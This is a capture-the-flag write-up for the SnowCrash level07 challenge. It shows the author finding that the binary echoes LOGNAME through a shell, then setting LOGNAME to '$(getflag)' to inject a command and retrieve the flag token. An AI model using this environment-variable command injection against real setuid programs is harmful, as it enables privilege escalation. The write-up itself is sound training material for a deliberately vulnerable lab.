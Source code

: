 
in this level we got an executable called level07
let's execute it:
--------------------------------
level07@SnowCrash:~$ ./level07
level07
--------------------------------

so whatever we try the program always keep printing level07

let's try to check with strings:
--------------------------------
...
[^_]
LOGNAME
/bin/echo %s
;*2$"
...
--------------------------------

so the program echo the LOGNAME from the env
logically speaking we need just to override the LOGNAME
to get the flag.. and that's could be done if we make LOGNAME
equal to gerflag

so let's do it
--------------------------------
level07@SnowCrash:~$ printenv | grep LOGNAME
LOGNAME=level07
level07@SnowCrash:~$ export LOGNAME=\$\(getflag\)
level07@SnowCrash:~$ printenv | grep LOGNAME
LOGNAME=$(getflag)
--------------------------------

now that we override it let's execute the program:
--------------------------------
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
--------------------------------

Good! now let's go to the next level:
--------------------------------
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$
--------------------------------

